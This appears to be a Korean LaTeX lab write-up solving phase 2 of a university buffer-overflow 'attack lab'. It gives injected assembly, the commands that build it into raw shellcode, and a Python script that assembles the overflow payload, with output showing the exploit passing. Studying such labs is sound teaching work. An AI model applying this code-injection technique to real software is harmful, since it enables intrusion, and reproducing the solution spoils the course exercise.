 \documentclass{scrartcl}
\begin{document}
\subsection{Phase 2}
Phase 2를 해결하기 위해서는 \texttt{touch2} 항수를 실행해야 하는데, phase 1과는
달리 edi 레지스터에 cookie 값이 있어야 한다는 차이점이 있다. 이 때문에 단순히
리턴 주소를 \texttt{touch2} 함수의 것으로 덮는 대신, 스택에 edi 래지스터에 값을
쓰는 코드를 입력하고 \texttt{touch2} 함수를 call 하는 코드를 입혁한 뒤 스택에
있는 코드로 리턴하도록 해야 한다. 스택에 덮어쓸 어셈블리 코드는 다음과 같이
작성할 수 있다.
\begin{lstlisting}
.section .text
.globl start
start:
mov $0x3e52dff5, %edi
mov $0x401879, %rax
callq *%rax
\end{lstlisting}
이 코드를 ELF 헤더 등이 없는 raw binary 형태의 코드로 컴파일하기 위해, 다음
명령어를 사용하였다. 어셈블리 코드를 \texttt{phase3\_code.S}에 저장하였다.
\begin{lstlisting}
$ as -o phase2_code.o phase2_code.S
$ ld -e start --oformat binary -o phase2_code.bin phase2_code.o
\end{lstlisting}
위 명령어를 실행하면 \texttt{phase2\_code.bin} 파일을 얻을 수 있고, 이 파일의
내용을 스택에 덮어쓰면 된다. \texttt{getbuf} 함수의 \texttt{ret} 명령어가
실행되는 순간에 \texttt{rsp} 값은 \texttt{0x55629f40}이기 때문에, 리턴 주소를
\texttt{0x55629f48}로 설정한 뒤 주소 뒤에 앞서 얻은 \texttt{phase2\_code.bin}
파일의 내용을 붙이면 공격을 위한 input string을 만들 수 있다. 이를 수행하는
코드는 다음과 같다.
\begin{lstlisting}[language=Python]
import struct

with open("phase2_payload.bin", "wb") as outfile, open(
    "phase2_code.bin", "rb"
) as infile:
    outfile.write(b"A" * 0x18)
    outfile.write(struct.pack("<q", 0x55629F48))
    outfile.write(infile.read())
\end{lstlisting}
이 코드를 통해 생성한 \texttt{phase2\_payload.bin} 파일을 입력으로 주어
실행시키면 공격이 성공함을 알 수 있다.
\begin{lstlisting}
$ ./ctarget < phase2_payload.bin
Cookie: 0x3e52dff5
Type string:Touch2!: You called touch2(0x3e52dff5)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
\end{lstlisting}
\end{document}
